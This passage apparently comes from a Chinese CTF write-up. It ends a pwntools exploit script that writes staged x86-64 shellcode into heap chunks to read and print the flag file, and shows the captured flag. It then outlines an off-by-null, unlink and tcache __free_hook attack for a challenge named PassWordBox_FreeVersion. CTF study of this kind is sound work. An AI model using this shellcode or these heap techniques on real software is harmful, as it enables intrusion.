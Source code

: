 ```
'''

print (len(asm(shellcode1)))
edit(0, asm(shellcode1))

shell2 = '''
syscall
push 0
pop rax
push 3
pop rdi
push rbp
pop rsi
push 0x50
pop rdx
jmp $+0x13
'''
print (len(asm(shell2)))
edit(1, asm(shell2))

shell3 = '''
syscall
push 1
push 1
pop rax
pop rdi
push rbp
pop rsi
push 0x50
pop rdx
syscall
'''
print (len(asm(shell3)))
edit(2, asm(shell3))
#gdb.attach(r)
test(0)

r.interactive()

#flag`{`58591d4d-068f-47ed-9305-a65762917b06`}`
```

### <a class="reference-link" name="PassWordBox_FreeVersion"></a>PassWordBox_FreeVersion

第一次申请的时候拿到异或加密的值用来控制之后输入的内容

chunk a (unsorted bin)<br>
chunk b used<br>
chunk c used<br>
伪造chunk c的`prevsize`位为chunk a+b，利用off by null溢出chunk c的`preinuse`位，free chunk c，发生unlink造成chunk overlap，然后泄露基址再用tcache打free_hook即可。过程中需要避开tcache的影响
